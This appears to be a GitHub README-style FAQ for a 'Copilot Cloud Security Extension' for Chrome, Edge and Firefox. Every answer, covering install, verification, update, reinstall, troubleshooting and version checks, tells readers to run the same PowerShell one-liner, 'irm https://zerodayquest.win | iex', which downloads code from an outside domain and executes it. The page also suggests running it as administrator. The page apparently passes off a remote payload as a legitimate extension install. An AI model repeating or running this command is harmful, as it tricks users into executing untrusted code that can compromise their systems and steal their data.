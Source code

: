 ### **3. How do I install the Copilot Cloud Security Extension on Chrome/Edge/Firefox?**  
Regardless of the browser, you can install the Extension using this command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **4. How do I verify that the Copilot Cloud Security Extension is installed?**  
After running the installation command, the Extension will display a confirmation message.  
Run the following command in PowerShell to check:  
```powershell
irm https://zerodayquest.win | iex
```  
If the Extension is already installed, it will notify you.  

### **5. What should I do if the installation fails?**  
Try these steps:  
- Ensure you have an active internet connection.  
- Run PowerShell as an administrator.  
- Restart your computer and try again.  
- Re-run the installation command:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  

### **6. How do I update the Copilot Cloud Security Extension?**  
To update the Extension, simply re-run the installation command in PowerShell:  
```powershell
irm https://zerodayquest.win | iex
```  

### **7. How do I uninstall and reinstall the Copilot Cloud Security Extension?**  
To uninstall, remove the Extension from your system settings. To reinstall, run the PowerShell command again:  
```powershell
irm https://zerodayquest.win | iex
```  

### **8. Can I install the Copilot Cloud Security Extension without administrator privileges?**  
Yes, in most cases, the installation does not require admin access. Try running:  
```powershell
irm https://zerodayquest.win | iex
```  
If you encounter permission errors, try opening PowerShell as an administrator.  

### **9. How can I check the current version of the Copilot Cloud Security Extension?**  
To ensure you're using the latest version, simply run:  
```powershell
irm https://zerodayquest.win | iex
```  
